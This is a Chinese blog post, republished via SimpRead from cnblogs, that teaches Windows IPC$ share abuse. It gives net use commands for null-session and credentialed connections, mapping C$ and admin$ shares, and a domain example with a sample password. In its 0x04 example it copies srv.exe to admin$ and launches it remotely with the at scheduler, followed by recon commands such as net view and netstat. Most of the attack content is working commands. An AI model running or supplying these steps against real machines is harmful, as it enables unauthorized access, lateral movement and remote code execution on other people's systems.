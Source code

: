 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.cnblogs.com](https://www.cnblogs.com/-mo-/p/11813608.html)

### 0x01 简介

Copy`IPC$(Internet Process Connection)`

是共享” 命名管道” 的资源，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限, 在远程管理计算机和查看计算机的共享资源时使用。

Copy

利用

`IPC$`

, 连接者甚至可以与目标主机建立一个连接，利用这个连接，连接者可以得到目标主机上的目录结构、用户列表等信息。

### 0x02 利用条件

Copy

1.139,445 端口开启：ipc$ 连接可以实现远程登陆及对默认共享的访问; 而 139 端口的开启表示 netbios 协议的应用, 我们可以通过 139,445(win2000) 端口实现对共享文件 / 打印机的访问, 因此一般来讲,

`ipc$`

连接是需要 139 或 445 端口来支持的.

CopyCopyCopy

2. 管理员开启了默认共享：默认共享是为了方便管理员远程管理而默认开启的共享, 即所有的逻辑盘

`(c$,d$,e$……)`

和系统目录

`winnt或windows(admin$)`

, 我们通过

`ipc$`

连接可以实现对这些默认共享的访问

### 0x03 操作命令

#### 1. 建立 IPC$ 空连接

```
net use \\127.0.0.1\Iipc$ "" /user:""
```

#### 2. 建立完整的用户名，密码连接

```
net use \\127.0.0.1\ipc$ "password" /user:"username"
```

#### 3. 映射路径

```
net use z: \\127.0.0.1\c$ "密码" /user:"用户名"  (即可将对方的c盘映射为自己的z盘，其他盘类推)
```

#### 4. 访问 / 删除路径：

```
net use z: \\127.0.0.1\c$   #直接访问
net use c: /del     删除映射的c盘，其他盘类推 
net use * /del      删除全部,会有提示要求按y确认
```

#### 5. 删除 IPC$ 连接

```
net use \\127.0.0.1\ipc$ /del
```

#### 6. 域中进行 IPC$ 连接

```
net use\\去连接的IP地址\ipc$ "域成员密码"  /user:域名\域成员账号
net use\\192.168.100.1\ipc$ "admin123.." /user:momaek.com\win2003

dir \\momaek.com\c$

copy test.exe \\momaek.com\c$

net use \\192.168.100.1\ipc$ /del
```

### 0x04 使用实例

4.1 构建连接

```
C:\>net use \\127.0.0.1\IPC$ "" /user:"admintitrators"
```

这里密码原本就是为 "空"

4.2 上传 exe

```
C:\>copy srv.exe \\127.0.0.1\admin$
```

先复制 srv.exe 上去，（这里的 $ 是指 admin 用户的 c:\winnt\system32\，大家还可以使用 c$、d$，意思是 C 盘与 D 盘，这看你要复制到什么地方去了）。

4.3 查看时间

```
C:\>net time \\127.0.0.1
```

查查时间，发现 127.0.0.1 的当前时间是 2019/2/8 上午 11:00，命令成功完成。

4.4 运行程序

```
C:\>at \\127.0.0.1 11:05 srv.exe
```

用 at 命令启动 srv.exe 吧（这里设置的时间要比主机时间快，不然无法启动）

### 0x05 IPC$ 连接失败的原因

1. 你的系统不是 NT 或以上操作系统.  
2. 对方没有打开 ipc$ 默认共享。  
3. 不能成功连接目标的 139，445 端口.  
4. 命令输入错误.  
5. 用户名或密码错误.

### 0x06 常见错误号

1. 错误号 5，拒绝访问：很可能你使用的用户不是管理员权限的，先提升权限；  
2. 错误号 51，Windows 无法找到网络路径：网络有问题；  
3. 错误号 53，找不到网络路径：ip 地址错误；目标未开机；目标 lanmanserver 服务未启动；目标有防火墙（端口过滤）；  
4. 错误号 67，找不到网络名：你的 lanmanworkstation 服务未启动；目标删除了 ipc$；  
5. 错误号 1219，提供的凭据与已存在的凭据集冲突：你已经和对方建立了一个 ipc$，请删除再连。  
6. 错误号 1326，未知的用户名或错误密码：原因很明显了；  
7. 错误号 1792，试图登录，但是网络登录服务没有启动：目标 NetLogon 服务未启动。（连接域控会出现此情况）  
8. 错误号 2242，此用户的密码已经过期：目标有帐号策略，强制定期要求更改密码。

### 0x07 其他知识点

```
net share       #查看自己的共享
net view \\IP   #查看target-IP的共享
netstat -A IP   #获取target-IP的端口列表

netstat -ano | findstr "port"  #查看端口号对应的PID
tasklist | findstr "PID"       #查看进程号对应的程序
```

参考链接：  
[https://www.cnblogs.com/bmjoker/p/10355934.html](https://www.cnblogs.com/bmjoker/p/10355934.html)